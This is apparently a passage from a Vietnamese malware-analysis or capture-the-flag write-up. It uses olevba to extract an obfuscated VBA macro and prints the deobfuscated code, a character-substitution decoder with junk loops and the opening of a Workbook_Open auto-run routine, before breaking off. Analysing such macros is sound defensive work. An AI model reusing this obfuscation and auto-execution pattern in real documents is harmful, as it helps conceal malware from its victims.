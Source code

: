 Đem qua `KaliLinux` dùng `olevba` phân tích

![image](images/img4.png)

Khá hoa mắt Nhưng thực chất đoạn mã trên bị làm rối bằng cách sử dụng hàm với những kí tự loằng ngoằng và khó hiểu, dùng vscode để chỉnh lại các hàm cho dễ đọc

```vba
Function a(b)
c = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
d = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(b)
e = InStr(c, Mid(b, y, 1))
If e > 0 Then
f = Mid(d, e, 1)
g = g + f
Else
g = g + Mid(b, y, 1)
End If
Next
a = g
For h = 1 To Len(i)
i = h
Next
For j = 2 To Len(k)
k = 2
Next
For l = 3 To Len(m)
m = l
Next
For n = 4 To Len(o)
o = 2
Next
End Function
Sub Workbook_Open()
Dim p As Object
Dim q As String
Dim r As String
Dim s As String
Dim t As Integer
```